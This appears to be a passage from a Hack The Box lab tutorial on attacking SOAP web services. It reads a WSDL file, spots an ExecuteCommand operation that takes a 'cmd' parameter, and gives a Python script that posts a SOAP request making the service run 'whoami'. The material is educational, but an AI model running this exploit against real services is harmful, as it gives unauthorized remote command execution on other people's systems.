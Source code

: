 ```xml
    
    
    <wsdl:port name="HacktheboxServiceSoapPort" binding="tns:HacktheboxServiceSoapBinding">
      <soap:address location="http://localhost:80/wsdl"/>
    </wsdl:port>
    
    
  </wsdl:service>
  
  
  
  
  
</wsdl:definitions>
```

The first thing to pay attention to is the following.
```xml
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
```

We can see a SOAPAction operation called _ExecuteCommand_.

Let us take a look at the parameters.
```xml
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
```
### Exploitation
We notice that there is a _cmd_ parameter. Let us build a Python script to issue requests (save it as `client.py`). 

Note that the below script will try to have the SOAP service execute a `whoami` command.
```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

The Python script can be executed, as follows.
```shell
python3 client.py
```
